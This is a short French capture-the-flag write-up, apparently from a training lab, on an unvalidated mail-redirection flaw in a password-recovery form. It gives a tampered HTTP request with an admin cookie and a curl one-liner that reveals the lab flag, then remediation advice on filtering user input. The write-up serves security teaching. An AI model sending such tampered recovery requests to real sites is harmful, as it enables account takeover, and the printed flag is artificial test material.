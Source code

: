 # Unvalidated redirection mail

## Exploitation

Avec BurpSuite on peux changer la requete envoyer au serveur pour changer la destination du mail qui est initialement prevue

```
POST /?page=recover HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=recover
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```

mail=hacker%40borntosec.com&Submit=Submit


avec curl:

```bash
$> curl 'http://192.168.99.100/?page=recover' --data 'mail=hacker%40borntosec.com&Submit=Submit' | grep flag

The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```

## Resolution

Ne faites jamais confiance aux champs de saisie utilisateur. Toutes les entrées des utilisateurs doivent être considérées comme non fiables et potentiellement malveillantes. 
Les applications qui traitent les entrées non fiables peuvent devenir vulnérables aux attaques telles que les dépassements de tampon, l'injection SQL, la commande du système d'exploitation, le déni de service et l'injection d'e-mails.
Utilisez des regex pour filtrer les données utilisateur. Par exemple, nous pouvons rechercher (\r ou \n) dans la chaîne d'entrée.
